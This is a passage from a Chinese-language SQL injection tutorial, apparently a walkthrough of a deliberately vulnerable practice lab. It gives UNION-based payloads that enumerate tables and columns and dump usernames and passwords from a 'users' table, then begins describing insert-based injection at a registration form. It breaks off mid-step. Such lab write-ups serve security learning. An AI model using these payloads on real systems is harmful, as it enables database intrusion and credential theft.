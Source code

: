 ![image-20220126205801564](https://gitee.com/xxb667/img/raw/master/img/image-20220126205801564.png)

### 爆表

查看当前数据库中的所有表

```
#爆表【httpinfo,member,message,users,xssblind】 

x') union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220126205857637](https://gitee.com/xxb667/img/raw/master/img/image-20220126205857637.png)

### 爆列

得到指定表中的所有列名

```
#爆列【...,username,password,...】 

x') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' # 
```

![image-20220126210011644](https://gitee.com/xxb667/img/raw/master/img/image-20220126210011644.png)

### 爆值

得到指定表的指定值

```
#爆值 
x') union select 1,concat_ws('-',username,password) from users #
```

![image-20220126210027991](https://gitee.com/xxb667/img/raw/master/img/image-20220126210027991.png)

## 4.7."insert/update"注入

insert /update注入

- 指我们前端注册的信息
- 后台会通过 insert/update 
- 这个操作插入/更新到数据库中。

- 如果后台没对我们的输入做防 SQL 注入处理
- 我们就能在注册时通过拼接 SQL 注入。

#### **insert注入**

进入注册页面，填写必填的两项

用户那里输入单引号，密码输入123
